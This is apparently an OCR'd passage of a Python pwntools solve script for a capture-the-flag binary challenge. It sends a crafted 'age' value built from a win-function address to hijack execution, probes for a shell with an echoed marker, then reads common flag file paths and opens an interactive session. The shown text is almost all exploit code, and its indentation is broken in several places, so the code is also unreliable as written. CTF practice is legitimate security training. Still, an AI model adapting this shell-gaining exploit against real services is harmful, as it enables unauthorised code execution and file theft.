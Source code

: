 ```python

if os.path.exists(exe):
    return process([exe] + argv, *a, **kw)

raise SystemExit("No remote args found and local exe not present. Usage:\n"
                 "  python3 solve.py REMOTE host port\n  or\n"
                 "  python3 solve.py host port\n  or run locally with ./chal present")


io = start()

def safe_recv(timeout=0.5):
try:
return io.recv(timeout=timeout)
except EOFError:
return b''
except Exception:
return b''

try:
banner = safe_recv(timeout=1)
if banner:
log.info("Initial banner:\n" + banner.decode(errors='ignore'))

log.info("Sending name...")
io.sendline(name)

after_name = safe_recv(timeout=1)
if after_name:
    log.info("After name:\n" + after_name.decode(errors='ignore'))

log.info(f"Sending age -> decimal {send_X} (win << 8)")
io.sendline(str(send_X).encode() + b"\n")

time.sleep(0.2)
after_age = safe_recv(timeout=1)
if after_age:
    log.info("After sending age:\n" + after_age.decode(errors='ignore'))
else:
    log.info("No output after sending age (connection may have closed).")

# Probe for shell

try:
    marker = "CTF_MARKER_OK_123"
    log.info("Probing for shell by echoing a marker...")
    io.sendline(f"echo {marker}".encode())
    out = io.recvuntil(marker.encode(), timeout=2)
    log.success("Marker seen! Probably have a shell. Received:\n" + out.decode(errors='ignore'))

    # try some common flag paths quickly; drop to interactive either way
    for path in [b'/flag', b'/app/flag', b'/flag.txt', b'/app/flag.txt', b'/home/ctf/flag', b'/home/ctf/flag.txt']:
        io.sendline(b'cat ' + path)
        line = io.recvline(timeout=1)
        if line and b'No such file' not in line:
            log.success("Flag: " + line.decode(errors='ignore').strip())
            break

    io.interactive()

except EOFError:
    log.error("Remote closed connection while probing -> no shell obtained.")
```